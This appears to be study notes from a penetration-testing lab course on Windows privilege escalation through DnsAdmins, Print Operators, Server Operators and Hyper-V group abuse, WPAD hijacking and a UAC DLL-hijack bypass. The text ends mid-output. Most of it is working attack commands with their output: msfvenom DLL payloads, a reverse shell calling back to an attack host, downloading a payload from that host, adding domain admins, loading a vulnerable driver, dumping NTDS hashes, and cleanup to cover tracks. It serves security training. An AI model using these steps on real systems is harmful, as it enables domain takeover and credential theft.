Members of the DnsAdmins group have access to DNS information on the network. The Windows DNS service supports custom plugins and can call functions from them to resolve name queries that are not in the scope of locally hosted DNS zones. The DNS service runs as NT AUTHORITY\SYSTEM, so membership in this group could potentially be leveraged to escalate privileges on a DC or in a situation where a separate server is acting as the DNS server for the domain. It is possible to use the built-in `dnscmd` utility to specify the path of the plugin DLL. As detailed in [this post](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a DC:

- DNS management is performed over RPC
- ServerLevelPLuginDl allows you to load a custom DLL with zero verification of the DLL's path. This can be done with the dnscmd tool from the command line
- When a member of the DnsAdmins group runs the dnscmd command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
- When the DNS service is restarted, the DLL in this path will be loaded
- An attacker can load a custom DLL to obtain a revshell or even load a tool such as Mimikatz as a DLL to dump credentials

#### Leveraging DnsAdmins Access

You can generate a malicious DLL o add a user to the domain admins group using msfvenom.

```bash
d41y@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```

Next, start a Python HTTP server.

```bash
d41y@htb[/htb]$ python3 -m http.server 7777

Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.43.9 - - [19/May/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -
```

Download the file to the target.

```powershell
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

First see what happens if you use the dnscmd utility to load a custom DLL with a non-privileged user.

```
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

As expected, attempting to execute this command as a normal user isn't successful. Only members of the DnsAdmins group are permitted to do this.

```powershell
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109
```

After confirming group membership in the DnsAdmins group, you can re-run the command to load a custom DLL.

```
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Only the dnscmd utility can be used by members of the DnsAdmins group, as they do not directly have permission on the registry key.

With the registry setting containing the path of your malicious plugin configured, and your payload created, the DLL will be loaded the next time the DNS service is started. Membership in the DnsAdmins group doesn't give the ability to restart the DNS service, but this is conceivably something that sysadmins might permit DNS admins to do.

After restarting the DNS service, you should be able to run your custom DLL and add a user or get a revshell. If you do not have access to restart the DNS server, you will have to wait until the server or service restarts. Check your current user's permissions on the DNS service.

First, you need your user's SID.

```
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

Once you have the user's SID, you can use the `sc` command to check permissions on the service. Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), you can see that your user has RPWP permissions which translate to SERVICE_START and SERVICE_STOP, respectively.

```
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

After confirming these permissions, you can issue the following commands to stop and start the service.

```
C:\htb> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```

The DNS service will attempt to start and run your custom DLL, but if you check the status, it will show that it failed to start correctly.

```
C:\htb> sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6960
        FLAGS              :
```

If all goes to plan, your account will be added to the Domain Admins group or receive a revshell if your custom DLL was made to give you a connection back.

```
C:\htb> net group "Domain Admins" /dom

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

#### Cleaning Up

Making configuration changes and stopping/restarting the DNS service on a DC are very destructive actions and must be exercised with great care. As a pentester, you need to run this type of action by your client before proceeding with it since it could potentially take down DNS for an AD environment and cause many issues. If your client gives their permission to go ahead with this attack, you need to be able to either cover your tracks and clean up after yourself or offer your client steps on how to revert the changes.

These steps must be taken from an elevated console with a local or domain admin account.

The first step is confirming that the ServerLevelPluginDll registry key exists. Until your custom DLL is removed, you will not be able to start the DNS service again correctly.

```
C:\htb> reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters
    GlobalQueryBlockList    REG_MULTI_SZ    wpad\0isatap
    EnableGlobalQueryBlockList    REG_DWORD    0x1
    PreviousLocalHostname    REG_SZ    WINLPE-DC01.INLANEFREIGHT.LOCAL
    Forwarders    REG_MULTI_SZ    1.1.1.1\08.8.8.8
    ForwardingTimeout    REG_DWORD    0x3
    IsSlave    REG_DWORD    0x0
    BootMethod    REG_DWORD    0x3
    AdminConfigured    REG_DWORD    0x1
    ServerLevelPluginDll    REG_SZ    adduser.dll
```

You can use the `reg delete` command to remove the key that points to your custom DLL.

```
C:\htb> reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll

Delete the registry value ServerLevelPluginDll (Yes/No)? Y
The operation completed successfully.
```

Once this is done, you can start up the DNS service again.

```
C:\htb> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4984
        FLAGS              :
```

If everything went to plan, querying the DNS service will show that it is running. You can also confirm that DNS is working correctly within the environment by performing an `nslookup` against the localhost or another host in the domain.

```
C:\htb> sc query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Once again, this is a potentially destructive attack that you should only carry out with explicit permission from and in coordination with your client. If they understand the risks and want to see a full proof of concept, then the steps outlined in this section will help demonstrate the attack and clean up afterward.

#### Using Mimilib.dll

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), you could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the Mimikatz tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of your choosing.

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

#### Creating a WPAD Record

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives you the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps),which by default blocks this attack. Server 2008 first introduced the ability to add to a global block list on a DNS server. By default, Web Proxy Automatic Discovery Protocol (_WPAD_) and Intra-Site Automatic Tunnel Addressing Protocol (_ISATAP_) are on the global query block list. These protocols are quite vulnerable to hijacking, and any domain user can create a computer object or DNS record containing those names.

After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through your attack machine. You could use a tool such as Responder or Inveigh to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

To set up this attack, you first disable the query block list:

```powershell
C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

Next, you add a WPAD record pointing to your attack machine.

```powershell
C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

### Hyper-V Administrators

The Hyper-V Administrators group has full access to all Hyper-V features. If DCs have been virtualized, then the virtualization admins should be considered Domain Admins. They could easily create a clone of the live DC and mount the virtual disk offline to obtain the NTDS.dit file and extract NTLM password hashes for all users in the domain.

It is also well documented on this [blog](https://decoder.cloud/2020/01/20/from-hyper-v-admin-to-system/), that upon deleting a VM, vmns.exe attempts to restore the original file permissions on the corresponding .vhdx file and does so as NT AUTHORITY\SYSTEM, without impersonating the user. You can delete the .vhdx file and create a native hard link to point this file to a protected SYSTEM file, which you will have full permissions to.

If the OS is vulnerable to [CVE-2018-0952](https://www.tenable.com/cve/CVE-2018-0952) or [CVE-2019-0841](https://www.tenable.com/cve/CVE-2019-0841), you can leverage this to gain SYSTEM privileges. Otherwise, you can try to take advantage of an application on the server that has installed a service running in the context of SYSTEM, which is startable by unprivileged users.

An example of this is Firefox, which installs the Mozilla Maintenance Service. You can update [this exploit](https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1) to grant your user full permissions on the file below.

```
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

After running the PowerShell script, you could have full control of this file and can take ownership of it.

```
C:\htb> takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

Next, you can replace this file with a malicious maintenanceservice.exe, start the maintenance service, and get command execution as SYSTEM.

```
C:\htb> sc.exe start MozillaMaintenance
```

> [!NOTE]
> This vector has been mitigated by the March 2020 Windows security updates, which changed behavior relating to hard links.

### Print Operators

Print Operators is another highly privileged group, which grants its members the SeLoadDriverPrivilege, rights to manage, create, share, and delete printers connected to a DC, as well as the ability to log on locally to a DC and shut it down. If you issue the command `whoami /priv`, and don't see the SeLoadDriverPrivilege from an unelevated context, you will need to bypass UAC.

```
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name           Description                          State
======================== =================================    =======
SeIncreaseQuotaPrivilege Adjust memory quotas for a process   Disabled
SeChangeNotifyPrivilege  Bypass traverse checking             Enabled
SeShutdownPrivilege      Shut down the system                 Disabled
```

The [UACMe](https://github.com/hfiref0x/UACME) repo features a comprehensive list of UAC bypasses, which can be used from the command line. Alternatively, from a GUI, you can open an administrative command shell and input the credentials of the account that is a member of the Print Operators group. If you examine the privileges again, SeLoadDriverPrivilege is visible but disabled.

```
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

It's well known that the driver Capcom.sys contains functionality to allow any user to execute shellcode with SYSTEM privileges. You can use your privileges to load this vulnerable driver and escalate privileges. You can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us.

Download it locally and edit it, pasting over the includes below.

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

Next, from a Visual Studio 2019 Developer Command Prompt, compile it using cl.exe.

```
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

Next, download the Capcom.sys driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to `C:\temp`. Issue the command below to add a reference to this driver under your HKEY_CURRENT_USER tree.

```
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

The operation completed successfully.


C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.
```

The odd syntax `\??\` used to reference your malicious driver's ImagePath is an NT Object Path. The Win32 API will parse and resolve this path to properly locate and load your malicious driver.

Using Nirsoft's DriverView.exe, you can verify that the Capcom.sys driver is not loaded.

```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

Run the EnableSeLoadDriverPrivilege.exe binary.

```
C:\htb> EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

Next, verify that the Capcom driver is now listed.

```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

To exploit the Capcom.sys, you can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling it with Visual Studio.

This launches a shell with SYSTEM privileges.

#### Alternate Exploitation - No GUI

If you do not have GUI access to the target, you will have to modify the ExploitCapcom.cpp code before compiling. Here you can edit line 292 and replace `C:\\Windows\\system32\\cmd.exe` with, say, a revshell binary crafted with msfvenom, for example: `c:\ProgramData\revshell.exe`.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The CommandLine string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

You would set up a listener based on the msfvenom payload you generated and hopefully receive a revshell connection back when executing ExploitCapcom.exe. If a revshell connection is blocked for some reason, you can try a bind shell or exec/add user payload.

#### Automating the Steps

You can use a tool such as EoPLoadDriver to automate the process of enabling the privilege, creating the registry key, and executing NTLoadDriver to load the driver. To do this, you would run the following:

```
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

You would then run ExploitCapcom.exe to pop a SYSTEM shell or run your custom binary.

#### Clean-up

You can cover your tracks a bit by deleting the registry key added earlier.

```
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```

> [!NOTE]
> Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY_CURRENT_USER".

### Server Operators

The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful SeBackupPrivilege and SeRestorePrivilege privileges and the ability to control local services.

Examine the AppReadiness service. You can confirm that this service starts as SYSTEM using the sc.exe utility.

```
C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

You can use the service viewer/controller PsService, which is part of the Sysinternals suite, to check permissions on the service. PsService works much like the `sc` utility and can display service status and configuration and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.

```
C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All
```

The confirms that the Server Operators group has SERVICE_ALL_ACCESS access right, which gives you full control over this service.

Take a look at the current members of the local administrators group and confirm that your target account is not present.

```
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.
```

Change the binary path to execute a command which adds your current user to the default local administrators group.

```
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

Starting the service fails, which is expected.

```
C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

If you check the membership of the administrators group, you see that the command was executed successfully.

```
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.
```

From here, you have full control over the DC and could retrieve all credentials from the NTDS database and access other systems, and perform post-exploitation tasks.

```bash
d41y@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)

d41y@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
[*] Cleaning up...
```

## OS Attacks

### User Account Control

... is a feature that enables a consent prompt for elevated activities. Applications have different integrity levels, and a program with a high level can perform tasks that could potentially compromise the system. When UAC is enabled, applications and tasks always run under the security context of a non-administrator account unless an administrator explicitly authorizes these applications/tasks to have administrator-level access to the system to run. It is a convenience feature that protects administrators from unintended changes but is not considered a security boundary.

When UAC is in place, a user can log into their system with their standard user account. When processes are launched using a standard user token, they can perform tasks using the rights granted to a standard user. Some applications require additional permissions to run, and UAC can provide additional access rights to the token for them to run correctly.

This [page](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works) discusses how UAC works in great depth and includes the logon process, user experience, and UAC architecture. Administrators can use security policies to configure how UAC works specific to their organization at the local level, or configured and pushed out via GPO in an AD domain environment. The various settings are discussed in detail [here](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-security-policy-settings). There are 10 Group Policy settings that can be set for UAC.

| Group Policy Setting | Registry Key | Default Setting |
| -------------------------------- | ------------------- | ------------------------ |
| User Account Control: Admin Approval Mode for the built-in Administrator account | FilterAdministratorToken | Disabled |
| User Account Control: Allow UIAccess applications to prompt for elevation without using the secure Desktop | EnableUIADesktopToggle | Disabled |
| User Account Control: Behavior of the elevation prompt for administrators in Admin Approval Mode | ConsentPromptBehaviorAdmin | Prompt for consent for non-Windows binaries |
| User Account Control: Behavior of the elevation prompt for standard users | ConsentPromptBehaviorUser | Prompt for credentials on the secure desktop |
| User Account Control: Detect application installations and prompt for elevation | EnableInstallerDetection | Enabled (_default for home_) Disabled (_default for enterprise_) |
| User Account Control: Only elevate executables that are signed and validated | ValidateAdminCodeSignatures | Disabled |
| User Account Control: Only elevate UIAccess applications that are installed in secure locations | EnableSecureUIAPaths | Enabled |
| User Account Control: Run all administrators in Admin Approval Mode | EnableLUA | Enabled |
| User Account Control: Switch to the secure desktop when prompting for elevation | PromptOnSecureDesktop | Enabled |
| User Account Control: Virtualize file and registry write failures to per-user locations | EnableVirtualization | Enabled |

UAC should be enabled, and although it may not stop an attacker from gaining privileges, it is an extra step that may slow this process down and force them to become noisier.

The default RID 500 administrator account always operates at the high mandatory level. With Admin Approval Mode (_AAM_) enabled, any new admin accounts you create will operate at the medium mandatory level by default and be assigned two separate access tokens upon logging in. In the example below, the user account "sarah" is in the administrators group, but cmd.exe is currently running in the context of their unprivileged access token.

```
C:\htb> whoami /user

USER INFORMATION
----------------

User Name         SID
================= ==============================================
winlpe-ws03\sarah S-1-5-21-3159276091-2191180989-3781274054-1002

C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
mrb3n
sarah
The command completed successfully.

C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

There is no command-line version of the GUI consent prompt, so you will have to bypass UAC to execute commands with your privileged access token. First, confirm if UAC is enabled and, if so, at what level.

```
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
    
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

The value of `ConsentPromptBehaviorAdmin` is 0x5, which means the highest UAC level of "Always notify" is enabled. There are fewer UAC bypasses at this highest level.

UAC bypasses leverage flaws or unintended functionality in different Windows builds. Examine the build of Windows you're looking to elevate on.

```powershell
PS C:\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page you cross-reference to Windows release 1607.

The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it. Use technique number 54, which is stated to work from Windows 10 build 14393. This technique targets the 32-bit version of the auto-elevating binary SystemPropertiesAdvanced.exe. There are many trusted binaries that Windows will allow to auto-elevate without the need for a UAC consent prompt.

According to [this](https://egre55.github.io/system-properties-uac-bypass) blog post, the 32-bit version of SystemPropertiesAdvanced.exe attempts to load the non-existent DLL srrstr.dll, which is used by System Restore functionality.

When attempting to locate a DLL, Windows will use the following search order:

1. The directory from which the application loaded.
2. The system directory `C:\Windows\System32` for 64-bit systems.
3. The 16-bit system directory `C:\Windows\System`.
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.

Examine the path variable using the command `cmd /c echo %PATH%`. This reveals the default folders below. The WindowsApps folder is within the user's profile and writable by the user.

```powershell
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

You can potentially bypass UAC in this by using DLL hijacking by placing a malicious srrstr.dll DLL to WindowsApps folder, which will be loaded in an elevated context.

First, generate a DLL to execute a revshell.

```bash
d41y@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

Copy the generated DLL to a folder and set up a Python mini webserver to host it.

Download the malicious DLL to the target system, and stand up a Netcat listener on your attack machine.

If you execute the malicious srrstr.dll file, you will receive a shell back showing normal user rights. To test this, you can run the DLL using rundll32.exe to get a revshell connection.

```
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

Once you get a connection back, you'll see normal user rights.

```bash
d41y@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...

connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 49789
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Users\sarah> whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

Before proceeding, you should ensure that any instances of the rundll32 process from your previous execution have been terminated.

```
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

Now, you can try the 32-bit version of SystemPropertiesAdvanced.exe from the target host.

```
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

Checking back on your listener, you should receive a connection.

```bash
d41y@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah


C:\Windows\system32>whoami /priv

whoami /priv
